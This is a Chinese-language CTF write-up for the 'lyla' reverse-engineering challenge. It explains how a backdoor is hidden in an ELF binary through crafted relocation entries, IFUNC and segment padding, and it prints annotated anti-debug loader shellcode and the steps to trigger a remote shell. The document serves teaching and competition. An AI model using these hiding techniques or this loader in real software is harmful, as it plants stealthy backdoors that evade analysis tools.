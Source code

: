 ## lyla

解题脚本见 solve.py。

题目表面上的逻辑是一个无解题：经典的“输入密码，检查密码是否正确，正确则读取并输出 flag 文件内容”。但验证逻辑为“固定 32 字节的输入，使用输入作为 key 运行 Speck (128/128) 加密算法，要求结果等于另一固定值”，该验证逻辑在该密码算法不被攻破的情况下是不可能被解出的。

程序里藏有常见逆向工具（测试了 IDA Pro、objdump、readelf、Ghidra）不会直接显示的后门，后门主体代码编码后放置在 .text section 所属的 segment 结尾的填充数据中，ELF 头不会将这段数据标记为需要加载，但 Linux 实际映射文件内容进内存的时候是按页对齐的，是可以访问到的。后门代码的解码和触发逻辑藏在了重定位表里，重定位表的结构这里不再赘述，感兴趣的同学可以自行翻阅 glibc 源码中的 `glibc/sysdeps/x86_64/dl-machine.h`。

本题利用了以下几个重定位类型：

* `R_X86_64_SIZE64` - 指定 symbol index = 0，则该重定位项的实际效果为写 `*(uint64_t*)(elf_base+addr) = (addend+0);`
* `R_X86_64_COPY` - 记指定 symbol 解析出来的地址为 symbol_value，则实际效果为 `memcpy(elf_base+addr, symbol_value, symbol_size);`
* `R_X86_64_RELATIVE` - `*(uint64_t*)(elf_base+addr) = (elf_base+addend);`
* `R_X86_64_64` - 记指定 symbol 解析出来的地址为 symbol_value，则实际效果为 `*(uint64_t*)(elf_base+addr) = (symbol_value + addend);`

此外我们还利用了 IFUNC 机制，将符号类型设置为 `STT_GNU_IFUNC` 后，ld.so 在解析该符号时会将原本解析出来的值当作函数指针调用，并将函数返回值作为解析出来的符号值。这可以用来触发 shellcode 执行。

ld.so 在加载 ELF 的时候支持处理两个重定位表，分别由 DT_RELA 和 DT_JMPREL 指定，分别指向 .rela.dyn 和 .rela.plt 两个节，处理顺序为先 DT_RELA 再 DT_JMPREL。虽然在 ELF 格式规范中定义 DT_JMPREL 只能包含 JUMPSLOT 等少数几种重定位项，但 ld.so 在处理时并未人为做出限制，而是使用了一样的完整 `dl_machine`。
为了让包含后门的重定位表不显得过于显眼，我们并没有选择将触发后门的重定位表项直接插入原始的重定位表中，而是利用 RELA 和 JMPREL 在内存中紧密相接这一点，修改 DT_RELASZ，将其设置为 DT_RELASZ + DT_PLTRELSZ - 1 [1]，使得 .rela.plt 节中的内容会被解析两次，并在 .rela.dyn 中加入了五项作为第一阶段，其中四个 `R_X86_64_RELATIVE` 首先修改了 ELF 符号表中 `_ITM_registerTMCloneTable` 的类型为绝对符号，然后将其值覆盖为 .rela.plt 节的地址。接下来触发 `R_X86_64_COPY` 将位于首个 ELF Segment 结尾的数据拷贝到 .rela.plt 节中。ld.so 在接下来处理 JMPREL 时即会运行我们触发后门的重定位表项。
后门重定位表项的最后使用同样的方法将备份的原始 .rela.plt 内容复制了回去。这样在第二次执行处理 JMPREL 时将可以正常处理原始 JMPREL 中的重定位项。

我们加入的重定位项逻辑如下：

1. 获取 ELF .dynamic 节中的 DT_DEBUG 指针，该指针指向一个 `_r_debug` 结构体，其中包含了一个指向 `link_map` 结构体的指针，该结构体包含了 ELF 的基地址、大小、符号表及所有的 dynamic tag 的值。
2. 计算出 link_map + 64 + 13 * 8 的地址保存至 .text 结尾处备用，其中 13 为 DT_FINI 的值。该地址是 `link_map->dl_info[DT_FINI]`，其控制了 ld.so 在程序退出时调用的 fini 函数地址。
3. 解析 `_dl_argv` 变量和 `time` 函数的值备用。
4. 在 .text 段结尾处写入一段 shellcode 并利用 IFUNC 机制运行。

注释后的 shellcode 内容如下：

```asm
_begin:
    push rbx
    lea rbx, [rip+_begin-8]
    mov rdi, [rbx-16] /* &_dl_argv */

    // Make sure argv[0] starts with '/' (which is unusual when debugging, but plausible with xinetd)
    mov rax, [rdi]
    test eax, eax
    jz bye
    cmp byte ptr [rax], '/'
    jnz bye

    // Optimized (for size) loop for skipping argv
    movqq rcx, rdi
    xor eax, eax
    repnz scasq

    // Check for environment variable "LINES", "COLUMNS", "LD_PRELOAD" and "LD_AUDIT".
    // To make it tight we use an approximation: just check the first 4 characters.
    movqq rsi, rdi
env_check_loop:
    lodsq
    test eax, eax
    jz env_check_okay
    mov eax, dword ptr [rax]
    ror eax, 1
    cmp eax, 0xaaa627a1 /* "COLU" */
    jz bye
    // hex(ror(u32(b"LD_P"), 1, 32) & 0xffff). there might be false positive but
    // we don't care as long as there aren't in prod.
    cmp ax, 0xa226
    jz bye
    jmp env_check_loop

env_check_okay:
    // Overwrite dl_info[DT_FINI] in link_map
    mov rdi, [rbx-8]
    mov rax, [rbx]
    stosq

    // Decode payload
    movqq rcx, PAYLOAD_SIZE_IN_WORDS
    lea rdi, [rbx+(_end-_begin)+8+8]
    xor eax, eax
decode_loop:
    xor [rdi+rcx*4], eax
    add eax, [rdi+rcx*4]
    loop decode_loop

    // Patch payload to only run at correct time.
    lea rdi, [rdi+PAYLOAD_TIME_IMM_OFFSET]
    call [rbx+(_end-_begin)+8]
bye:
    // Zeroing self
    movqq rdi, rbx
    pop rbx
    push _fin-_begin+24
    pop rcx
    xor eax, eax
    rep stosb
    _fin:
    ret
_end:
```

其首先进行了一些反调试工作，检查 `argv[0]` 是否以 `'/'` 开头，检查环境变量中是否包含 `COLUMNS` （gdb 会设置该环境变量） 和 `LD_PRELOAD`，都通过后会将 `link_map->dl_info[DT_FINI]` 的值覆盖为这段 shellcode 结尾处的地址，并解码其内容，然后将 `time()` 的返回值保存到指定偏移，最后将自身内容清零。通过控制文件中的内容布局，我们在 shellcode 结尾处布置了另一段编码后的 shellcode，这样它会在程序退出时被执行。

另一段 shellcode 则是实际的后门代码，其会首先检查此时 `time()` 的返回值和程序开始时保存的值是否正好相差 3（即此时是否处于运行开始后的 3~4 秒之间），程序里读入的密码 buffer + 255 字节偏移处是否非 0，若都是，则在程序里面读入的密码 + 128 字节偏移处的 16 字节上以硬编码的密钥运行 Speck (128/128)，并检查结果是否为另一硬编码的值。若满足条件，则将密码 buffer 通过 mprotect 设置为可执行并运行。

逆向清楚后门的逻辑后，获取 flag 就比较简单了，我们只需要使用 Speck (128/128) 解密触发后门所需的数据，将其和 /bin/sh shellcode 按照上述格式拼接好，链接到远程服务器，在三秒后发送，即可获得 shell。获得 shell 后直接 `cat flag.txt` 即可。

[1] 减一的原因是 ld.so 里特别检查了 JMPREL 完全是 RELA 的一部分的情况，在这种情况下会跳过第二次执行。
